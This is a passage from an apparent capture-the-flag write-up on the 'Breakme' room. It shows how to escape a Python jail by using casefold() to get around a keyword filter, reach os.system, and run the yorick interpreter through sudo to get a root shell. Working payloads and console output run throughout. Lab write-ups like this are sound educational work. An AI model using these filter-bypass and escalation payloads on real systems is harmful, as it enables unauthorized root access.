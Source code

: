 As we can see, this allows us to access the `system` function successfully.

```console
>> print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()])
<built-in function system>
```

Now that we can access the `os.system` function and call it, we should look for ways to obtain a shell.

If we try to directly spawn a shell or use any other program that could help us spawn a shell, we find that most of them are not allowed.

```console
>> __builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('sh')
Illegal Input
```

At this point, checking the hint present in the room (`Interpreted programming language designed for numerics, graph plotting, and steering large scientific simulation codes.`), it points to the `yorick` program.

We can find the program at `/lib/yorick/bin/yorick`.

> The program is actually at `/usr/lib/yorick/bin/yorick`, but if you are using the `casefold` method, it only allows you to run `/lib/yorick/bin/yorick`.
{: .prompt-tip }

Now, using the payload `__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('/lib/yorick/bin/yorick')`, we can first spawn the `yorick` interpreter. Then, we can use the `system, "bash"` command in the `yorick` interpreter to spawn a shell as the `root` user and read the third flag.

```console
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail
  Will you stay locked forever
  Or will you BreakMe
>> __builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('/lib/yorick/bin/yorick')

 Copyright (c) 2005.  The Regents of the University of California.
 All rights reserved.  Yorick 2.2.04 ready.  For help type 'help'
> system, "bash"
root@Breakme:/home/youcef# cd ~
root@Breakme:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Breakme:~# wc -c .root.txt
33 .root.txt
```
{: .wrap }

### Extra Payloads
